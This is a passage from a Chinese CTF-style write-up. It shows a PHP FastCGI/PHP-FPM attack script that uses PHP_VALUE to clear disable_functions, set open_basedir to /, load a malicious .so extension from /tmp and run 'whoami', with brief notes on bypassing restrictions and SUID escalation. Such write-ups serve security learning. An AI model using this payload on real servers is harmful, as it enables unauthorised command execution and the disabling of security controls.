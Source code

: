 ```
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";
$params = array(
    'GATEWAY_INTERFACE' =&gt; 'FastCGI/1.0',
    'REQUEST_METHOD'    =&gt; 'POST',
    'SCRIPT_FILENAME'   =&gt; $filepath,
    'SCRIPT_NAME'       =&gt; $req,
    'QUERY_STRING'      =&gt; 'command=whoami',
    'REQUEST_URI'       =&gt; $uri,
    'DOCUMENT_URI'      =&gt; $req,
#'DOCUMENT_ROOT'     =&gt; '/',
    'PHP_VALUE'         =&gt; $php_value,
    'SERVER_SOFTWARE'   =&gt; '80sec/wofeiwo',
    'REMOTE_ADDR'       =&gt; '127.0.0.1',
    'REMOTE_PORT'       =&gt; '9001',
    'SERVER_ADDR'       =&gt; '127.0.0.1',
    'SERVER_PORT'       =&gt; '80',
    'SERVER_NAME'       =&gt; 'localhost',
    'SERVER_PROTOCOL'   =&gt; 'HTTP/1.1',
    'CONTENT_LENGTH'    =&gt; strlen($code)
);
// print_r($_REQUEST);
```

```
// print_r($params);
//echo "Call: $uri\n\n";
echo $client-&gt;request($params, $code)."\n";
?&gt;
```

这是普通的方式，但是在这里我们会发现这个方法他不行了，不难正常了打完。但是，我们在读取`php.ini`的时候发现了一个so文件,我们就可以通过加载恶意so文件来绕过。

看一下上面的脚本也就知道怎么操作了。

下面还有个suid提权不说了，收工了，困。

[![](https://p3.ssl.qhimg.com/t0129455fe02e2985b5.png)](https://p3.ssl.qhimg.com/t0129455fe02e2985b5.png)



## 0x03 总结与参考链接

> [https://www.anquanke.com/post/id/233454](https://www.anquanke.com/post/id/233454)
[https://ha1c9on.top/2021/04/29/lmb_one_pointer_php/#i-6](https://ha1c9on.top/2021/04/29/lmb_one_pointer_php/#i-6)
[https://xz.aliyun.com/t/5598](https://xz.aliyun.com/t/5598)
[https://www.anquanke.com/post/id/186186](https://www.anquanke.com/post/id/186186)
